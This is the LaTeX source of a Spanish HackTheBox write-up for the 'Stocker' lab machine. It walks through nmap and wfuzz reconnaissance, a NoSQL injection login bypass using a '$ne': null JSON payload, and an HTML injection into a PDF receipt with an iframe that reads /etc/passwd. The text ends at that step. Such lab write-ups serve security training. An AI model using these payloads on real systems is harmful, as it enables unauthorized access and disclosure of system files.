\documentclass[a4paper]{article} % Formato de Plantilla  que voy a utilizar
\usepackage[utf8]{inputenc} % Que me interprete todos los caracteres
\usepackage[spanish]{babel} % Se trabaja en español
\usepackage[margin=2cm, top=2cm, includefoot]{geometry}
\usepackage{graphicx} % Para la insercion de imagenes
\usepackage[table,xcdraw]{xcolor} % Para la deteción de colores
\usepackage[most]{tcolorbox} % Para la inserción de cuadros en la portada
\usepackage{fancyhdr} % Definir el estilo de la página
\usepackage[hidelinks]{hyperref} % Gestión de hipervinculos
\usepackage{listings} % Para la inserción de código en el documento
\usepackage{parskip} % Arreglo de la tabulación en el documento
\usepackage[figurename=Figura]{caption} % Cambiar el nombre del caption de las fotos
\usepackage{smartdiagram} % Para la inserción de diagramas
\usepackage{zed-csp} % Para la inserción de esquemas
\usepackage{pdfpages} % Para insertar PDF, en mi caso de Portada



% Declaración de colores
\definecolor{greenPortada}{HTML}{69A84F}  
\definecolor{jsonpurple}{RGB}{128,0,128} % Para la deteccion de sintanxis de JSON

% Declaración de variables
\newcommand{\logoPortada}{images/hackthebox.png}
\newcommand{\machineName}{Stocker} % Nombre de la máquina
\newcommand{\logoMachine}{images/machine.png} % Logo de la máquina
%\newcommand{\starDate}{3 de Julio del 2023}

% Adicionales
\addto\captionsspanish{\renewcommand{\contentsname}{Índice}} % Cambio el formato del Índice
\setlength{\headheight}{40.2pt} % Espacio de la linea para insertar imagen
\pagestyle{fancy} % Estilo de la página
\fancyhf{} % Estilo de la página 
\lhead{\includegraphics[width=5cm]{\logoPortada}} % Inserto el logo de la MACHINE a la LEFT
\rhead{\includegraphics[height=1.25cm]{\logoMachine}} % Inserto el logo de la MACHINE a la right
\renewcommand{\headrulewidth}{3pt} % Defino la anchura de la barra
\renewcommand{\headrule}{\hbox to\headwidth{\color{greenPortada}\leaders\hrule height \headrulewidth\hfill}} % Definimos el color de la barra, en este caso usamos el color de greePortada
\renewcommand{\lstlistingname}{Código} % Cambio de nombre del caption de los códigos

\definecolor{codegreen}{rgb}{0,0.6,0} % Para insertar código
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\lstdefinestyle{mystyle}
{
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2
}

\lstset{style=mystyle} % Termina la sintaxis para insertar código

%Comienzo del documento
\begin{document}
    
\cfoot{\thepage} % Numeros de páginas

% Creación de portada
\begin{titlepage}

\includepdf{Portada.pdf} % Inserta la Portada que es un PDF

\end{titlepage}

% -----------------------------------------------------------------------------------------

% Comienzo del TOC (Table of Contens)
\clearpage

\tableofcontents

\clearpage

% -----------------------------------------------------------------------------------------

\section{Introducción}
    El presente documento explica los pasos para resolver la máquina {\textbf{\machineName}} de la plataforma \href{https://hackthebox.com}{\textbf{\color{blue}HackTheBox}}.
    Esta vez HTB nos presenta una máquina Linux de nivel fácil, donde contiene una sitio web de compras, si aplicamos fuzzing para escanear y enumerar, nos encontramos con un subdomnio que contiene un panel de login, que  es vulnerable a NoSQL Injection, si la bypassemos no redirije a una tienda, donde podremos aplicar HTML Injection, para obtener  credenciales y poder conectarnos remotamente a la maquina y proceder a la escalada de privilegios.
    
    \vspace{0.5cm}
    
    \begin{figure}[h] % Con "h" indico que coloque la imagen abajo del texto
        \begin{center} % Otra forma de centrar 
        \smartdiagram[priority descriptive diagram]
        {
        Reconocimiento,
        Enumeración,
        Explotación,
        Escalada de privilegios
        }   
        \end{center}
        \caption{Etapas aplicadas al pentest}   
    \end{figure}

\section{Reconocimiento}
    
    \subsection{Herramienta nmap}
    Lazamos la herramienta \textbf{nmap} para averiguar los puertos y servicios abiertos de la máquina victima.
    \begin{lstlisting}[language=Python, caption=Primer lanzamiento de la herramienta en nmap]
         
    nmap -p- --open -v 10.10.11.196
    \end{lstlisting}

    \begin{figure}[h] % Con "h" indicamos que nos coloque la imagen abajo del texto
        \centering
        
\includegraphics[width=\textwidth]{images/Nmap1.png}
        \caption{Reconocimiento de Puertos} % Indica la el número de la figura
    \end{figure} 

    Obtenemos dos puertos abiertos, el puerto {\textbf{\color{blue}22}} que pertence al protocolo \textbf{ssh} y el puerto {\textbf{\color{red}80}} que pertence al protocolo \textbf{http}.

    Vamos a tirar nmap otra vez, pero ahora vamos a especificar la versión del servicio.

    \vspace{1cm}

    \begin{lstlisting}[language=Python, caption=Segundo lanzamiento de la herramienta en nmap]
         
    nmap -p 22,80 -sC -sV 10.10.11.196 -oN tarjeted
    \end{lstlisting}

    \begin{figure}[h] % Con "h" indicamos que nos coloque la imagen abajo del texto
        \centering
        
\includegraphics[width=\textwidth]{images/Nmap2.png}
        \caption{Reconocimiento de versión de servicios con nmap} % Indica la el número de la figura
    \end{figure} 

    Vemos que en el puerto 80 intenta redireccionar la conexión al dominio \textbf{stocker.htb}, pero no tiene éxito.

\section{Enumeración}

    Vamos a tratar de entrar al dominio {\textbf{\color{violet}stocker.htb}}, para eso hay que modificar el archivo de \textbf{/etc/hosts}.

    \begin{lstlisting}[language=Python, caption=Modificamos el archivo que hace el redireccionamiento y agregamos la IP de la máquina con el dominio que obtuvimos con nmap]
         
    nano /etc/hosts

    10.10.11.196  stocker.htb
    \end{lstlisting}
    
    Ahora si queremos acceder al sitio web, podemos hacerlo.

    \subsection{Investigando el sitio web}

    Vamos a investigar un poco...

    \begin{figure}[h] % Con "h" indicamos que nos coloque la imagen abajo del texto
        \centering
        
\includegraphics[width=\textwidth]{images/angoose.png}
        \caption{Comentario del Jefe del área IT} % Indica la el número de la figura
    \end{figure} 
    
    Si scrooleamos veremos que hay una persona de la empresa que dejo un comentario en el sitio web, se trata de \textbf{jefe} del área de \textbf{IT} y nos cuenta que quiere que la gente use su sitio web pero por ahora estan dejando todo el tinglado fino para que quede bien operativa, lo que no sabe es que nosotros le haremos un pentesting a su sitio y que le robaremos sus credenciales, pero ojo siempre \underline{White-Hat}.
    Bueno no hay nada mas que hacer, acordemosno del jefe, que se llama Angoose.

    \subsection{Fuzzing con wfuzz}
    Vamos a enumerar y escanear subdominios aplicando fuzzing.

    \begin{lstlisting}[language=Python, caption=Uso wfuzz para enumerar subdominios]
         
    wfuzz -c --hc=404 -t200 -w /usr/share/seclists/Discorvery/DNS/subdomains-top1million-110000ker.txt -u http://stocker.htb --hw 12
    \end{lstlisting}

    \begin{figure}[h] % Con "h" indicamos que nos coloque la imagen abajo del texto
        \centering
        
\includegraphics[width=\textwidth]{images/wfuzz.png}
        \caption{\textbf{dev} unico subdominio que encontramos} % Indica la el número de la figura
    \end{figure} 

    Otra vez volvamos a editar el archivo /etc/hosts

    \begin{lstlisting}[language=Python, caption=Modificamos el archivo que hace el redireccionamiento y agregamos la IP de la máquina con el subdominio que obtuvimos con wfuzz]
         
    nano /etc/hosts
    
    10.10.11.196  dev.stocker.htb
    \end{lstlisting}

    \par\vspace{1cm}

    Luego entramos y nos dirije a un panel de login.

    \begin{figure}[h] % Con "h" indicamos que nos coloque la imagen abajo del texto
        \centering
        
\includegraphics[width=\textwidth]{images/dev.stocker.htb-login.png}
        \caption{Panel de login en dev.stocker.htb} % Indica la el número de la figura
    \end{figure}\par\vspace{2.5cm}

    Con la ayuda del Wappalyzer, vemos que en el Backend esta corriendo Express.

    Para más información sobre el Framework, presione aqui: \href{https://kinsta.com/es/base-de-conocimiento/que-es-express/#:~:text=Cerrar-,Express.,desarrollar%20aplicaciones%20backend%20con%20Node.}{\textbf{\color{orange}Express}}

    Pero basicamente Express es un Framework para Node.js, donde utiliza Bases de Datos \textbf{NoSQL}.

    \begin{figure}[h] % Con "h" indicamos que nos coloque la imagen abajo del texto
        \centering
        
\includegraphics[width=1\textwidth]{images/wappalizer.png}
        \caption{Análisis con Wappalyzer} % Indica la el número de la figura
    \end{figure}\par\vspace{5cm}

\section{Explotación}
    Provemos hacer fuerza bruta con \textbf{admin:admin} o \textbf{angoose123:angoose123}.\par
    No tenemos éxito con ninguna posible password.
    
    \begin{figure}[h] % Con "h" indicamos que nos coloque la imagen abajo del texto
        \centering
        
\includegraphics[width=0.35\textwidth]{images/admin-admin.png}
        \caption{Fuerza Bruta} % Indica la el número de la figura
    \end{figure}\par

    Pero como sabemos Express utiliza Base de Datos NoSQL, lo que podremos intentar baypassearlo con NoSQL Injection, pero para eso vamos a visistar \href{https://book.hacktricks.xyz/welcome/readme}{\textbf{\color{red}HackTricks}} para ver como explotar la vulnerabilidad.

    Click para abrir el recurso utilizado de HackTricks: \href{https://book.hacktricks.xyz/pentesting-web/nosql-injection}{\textbf{\color{orange}NoSQL Injection}}

    Abrir BurpSuite para interceptar la data y usamos devuelta \textbf{admin:admin}, le damos enter.

    \begin{figure}[h] % Con "h" indicamos que nos coloque la imagen abajo del texto
        \centering
        
\includegraphics[width=1\textwidth]{images/adminerror.png}
        \caption{admin:admin para interceptar en BurpSuite} % Indica la el número de la figura
    \end{figure}\par\vspace{5cm}

    Tiro un error al colocar admin en el user y en el password, para eso usamos el metodo de autenticación que sacamos de HackTricks.

    \subsection{NoSQL Injection}
    Esto lo baypaseeamos de la siguiente manera diciendole que el username y la password no es null, con lo cual es cierto por lo tanto nos loguea.

    Cambiamos el \textbf{Content-Type:} y agregamos \textbf{/json}, luego y colocamos el elemento de la siguiente manera:

% Para que interprete JSON en el código 
    
    \lstdefinestyle{json}
{
  basicstyle=\footnotesize\ttfamily,
  commentstyle=\color{gray},
  keywordstyle=\color{blue},
  stringstyle=\color{jsonpurple},
  numbers=left,
  numberstyle=\tiny\color{gray},
  stepnumber=1,
  numbersep=8pt,
  showstringspaces=false,
  breaklines=true,
  frame=single,
  backgroundcolor=\color{white},
  morecomment=[s][\color{orange}]{/**}{*/},
  captionpos=b,
  escapeinside={(*@}{@*)},
}

    \begin{lstlisting}[style=json, caption=Bypasseamos diciéndole que el username y el password no es null]
    
    {
    "username": { "$ne": null },
    "password": { "$ne": null }
    }
    \end{lstlisting}


    Y nos dirije \textbf{dev.stokcer.htb/stock}.

    SI scroleamos vemos una tienda, si hacemos memoria en el pasado, el dominio original (\textbf{stocker.htb}) se trataba de una tienda, cuyo Jefe del Area IT comentaba que no estaba operativa, pues aca esta.

    \begin{figure}[h] % Con "h" indicamos que nos coloque la imagen abajo del texto
        \centering
        
\includegraphics[width=0.85\textwidth]{images/dev.stocker.htb-stock2.png}
        \caption{Productos en de.stocker.htb/stock} % Indica la el número de la figura
    \end{figure}\par\vspace{5cm}

    Si interactuamos con la tienda y añadimos los productos al carrito y hacemos clic en {\textbf{\color{blue}Submit purchase}} nos dan una orden de compra y un link para ver el recibo del pedido (es un PDF).

    \begin{figure}[h] % Con "h" indicamos que nos coloque la imagen abajo del texto
        \centering
        
\includegraphics[width=0.89\textwidth]{images/submit-purchase.png}
        \caption{Link de compra} % Indica la el número de la figura
    \end{figure}\par\vspace{2cm}

    \begin{figure}[h] % Con "h" indicamos que nos coloque la imagen abajo del texto
        \centering
        
\includegraphics[width=0.85\textwidth]{images/url_here.png}
        \caption{URL del link de compra} % Indica la el número de la figura
    \end{figure}\par\vspace{1cm}

    Si interceptamos la petición en BurpSuite, vemos que el Content-Type esta en json. 
    
    Podemos intentar cambiar el titulo de un producto para ver si se representa en el PDF del recibo.

    \begin{figure}[h] % Con "h" indicamos que nos coloque la imagen abajo del texto
        \centering
        
\includegraphics[width=0.85\textwidth]{images/mariano-burpsuite.png}
        \caption{BurpSuite cambiando contenido del titulo} % Indica la el número de la figura
    \end{figure}\par\vspace{6cm}

    Cargamos el PDF y funciona!!!

    \begin{figure}[h] % Con "h" indicamos que nos coloque la imagen abajo del texto
        \centering
        
\includegraphics[width=0.65\textwidth]{images/mariano-pdf1.png}
        \caption{PDF con titulo editado} % Indica la el número de la figura
    \end{figure}\par\vspace{10cm}

    \subsection{HTML Injection}

    Sacando conclusiones, seguramente podemos inyectar código HTML en el titulo.

    \begin{lstlisting}[language=html, caption=Inyectamos código HTML para conseguir ver mediante el PDF archivos de la máquina]
    
    <iframe src=/etc/passwd></iframe>
    \end{lstlisting}

    \begin{figure}[h] % Con "h" indicamos que nos coloque la imagen abajo del texto
        \centering
        
\includegraphics[width=0.8\textwidth]{images/pdfconhtml.png}
        \caption{Archivos de la máquina} % Indica la el número de la figura
    \end{figure}

    Para poder ver mejor todos los archivos de la máquina mejorando el codigo HTML jugando con {\textbf{\color{blue}width}} y {\textbf{\color{blue}height}}.

